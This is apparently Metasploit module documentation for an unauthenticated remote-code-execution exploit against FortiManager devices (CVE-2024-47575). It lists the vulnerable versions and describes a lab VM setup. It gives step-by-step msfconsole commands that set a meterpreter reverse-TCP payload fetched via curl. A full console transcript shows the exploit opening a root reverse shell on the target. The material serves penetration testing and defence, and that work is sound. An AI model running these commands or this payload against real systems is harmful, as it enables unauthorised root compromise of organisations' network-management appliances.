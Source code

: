 ## Vulnerable Application
This module exploits a missing authentication vulnerability affecting FortiManager and FortiManager
Cloud devices to achieve unauthenticated RCE with root privileges.

For a full technical analysis, please see our
AttackerKB [Rapid7 Analysis](https://attackerkb.com/topics/OFBGprmpIE/cve-2024-47575/rapid7-analysis).

The vulnerable FortiManager versions are:
* 7.6.0
* 7.4.0 through 7.4.4
* 7.2.0 through 7.2.7
* 7.0.0 through 7.0.12
* 6.4.0 through 6.4.14
* 6.2.0 through 6.2.12

The vulnerable FortiManager Cloud versions are:
* 7.4.1 through 7.4.4
* 7.2.1 through 7.2.7
* 7.0.1 through 7.0.12
* 6.4 (all versions).

## Testing
You will need to acquire a firmware image for a suitable version of FortiManager. For example, to deploy FortiManager
`7.6.0` as a VM on HyperV, download the file `FMG_VM64_HV-v7.6.0.F-build3340-FORTINET.out.hyperv.zip`.
* Extract the contents of this archive. You will get a primary hard drive image `fmg.vhd`.
* In HyperV:
  * Create a new virtual machine with 4096 MB RAM and 1 vCPU.
  * Add 4 network adapters, the first must be connected to your external network (or similar) which can assigned an IP
via DHCP. The remaining 3 adapters can remain unconnected.
  * In the IDE controller, add a new hard drive and select the `fmg.vhd` image.
  * In the IDE controller, add a new hard drive and create an empty image (128GB). This is used by the device to store
data after setup.
  * Boot the machine.
* The console will display the FortiManager boot sequence and drop you to a login prompt. The default username is `admin`
and the default password is empty. After you log in as admin the first time, you will be instructed to set a new admin
password.
* After logging in, you will be dropped to a CLI shell. Run the command `get system interface port1` in order to
discover the IP address of your new FortiManager device.
* At this point you can successfully exploit an unlicensed FortiManager device. Alternatively you can acquire a trial
license of FortiManager and complete the setup by visiting `https://<FORTIMANAGER_IP>/` in your browser.

## Verification Steps

1. Start msfconsole
2. `use exploit/linux/misc/fortimanager_rce_cve_2024_47575`
3. `set RHOST <TARGET_IP_ADDRESS>`
4. `set LHOST eth0`
5. `set LPORT 4444`
6. `set PAYLOAD cmd/linux/http/x64/meterpreter_reverse_tcp`
7. `check`
8. `exploit`

## Options
The exploit provides a suitable client certificate/key pair by default, however we can let a user configure
a different certificate/key pair to use if they want. The user can also override the serial number and
platform if needed, but the exploit will try to detect the serial number and platform from the certificate
by default.

### ClientCert
A file path to an x509 cert, signed by Fortinet, with a serial number in the CN

### ClientKey
A file path to the corresponding private key for the ClientCert.

### ClientSerialNumber
If set, use this serial number instead of extracting one from the ClientCert.

### ClientPlatform
If set, use this platform instead of determining the platform at runtime.

## Scenarios

### Default

```
msf exploit(linux/misc/fortimanager_rce_cve_2024_47575) > set RHOST 192.168.86.93
RHOST => 192.168.86.93
msf exploit(linux/misc/fortimanager_rce_cve_2024_47575) > set LHOST eth0
LHOST => eth0
msf exploit(linux/misc/fortimanager_rce_cve_2024_47575) > set LPORT 4444
LPORT => 4444
msf exploit(linux/misc/fortimanager_rce_cve_2024_47575) > set PAYLOAD cmd/linux/http/x64/meterpreter_reverse_tcp
PAYLOAD => cmd/linux/http/x64/meterpreter_reverse_tcp
msf exploit(linux/misc/fortimanager_rce_cve_2024_47575) > show options

Module options (exploit/linux/misc/fortimanager_rce_cve_2024_47575):

   Name                Current Setting  Required  Description
   ----                ---------------  --------  -----------
   ClientCert                           no        A file path to an x509 cert, signed by Fortinet, with a serial number in the CN
   ClientKey                            no        A file path to the corresponding private key for the ClientCert.
   ClientPlatform                       no        If set, use this platform instead of determining the platform at runtime.
   ClientSerialNumber                   no        If set, use this serial number instead of extracting one from the ClientCert.
   RHOSTS              192.168.86.93    yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-
                                                  metasploit.html
   RPORT               541              yes       The target port (TCP)


Payload options (cmd/linux/http/x64/meterpreter_reverse_tcp):

   Name                Current Setting  Required  Description
   ----                ---------------  --------  -----------
   FETCH_COMMAND       CURL             yes       Command to fetch payload (Accepted: CURL, FTP, TFTP, TNFTP, WGET)
   FETCH_DELETE        false            yes       Attempt to delete the binary after execution
   FETCH_FILENAME      GfogzcPTWbTb     no        Name to use on remote system when storing payload; cannot contain spaces or slashes
   FETCH_SRVHOST                        no        Local IP to use for serving payload
   FETCH_SRVPORT       8080             yes       Local port to use for serving payload
   FETCH_URIPATH                        no        Local URI to use for serving payload
   FETCH_WRITABLE_DIR  /tmp             yes       Remote writable dir to store payload; cannot contain spaces
   LHOST               eth0             yes       The listen address (an interface may be specified)
   LPORT               4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Default



View the full module info with the info, or info -d command.

msf exploit(linux/misc/fortimanager_rce_cve_2024_47575) > check
[*] 192.168.86.93:541 - The service is running, but could not be validated. Detected Fortinet FortiManager
msf exploit(linux/misc/fortimanager_rce_cve_2024_47575) > exploit

[*] Started reverse TCP handler on 192.168.86.42:4444 
[*] 192.168.86.93:541 - Client certificate common name: FMG-VM0000000000
[*] 192.168.86.93:541 - Using client serial number 'FMG-VM0000000000' and platform 'FortiManager-VM64'.
[*] 192.168.86.93:541 - Connecting...
[*] 192.168.86.93:541 - Registering device...
[*] 192.168.86.93:541 - Creating channel...
[*] 192.168.86.93:541 - Triggering...
[*] Meterpreter session 1 opened (192.168.86.42:4444 -> 192.168.86.93:16620) at 2024-11-15 12:48:15 +0000

meterpreter > getuid
Server username: root
meterpreter > sysinfo
Computer     : 192.168.86.93
OS           :  (Linux 5.15.109)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter > 
```
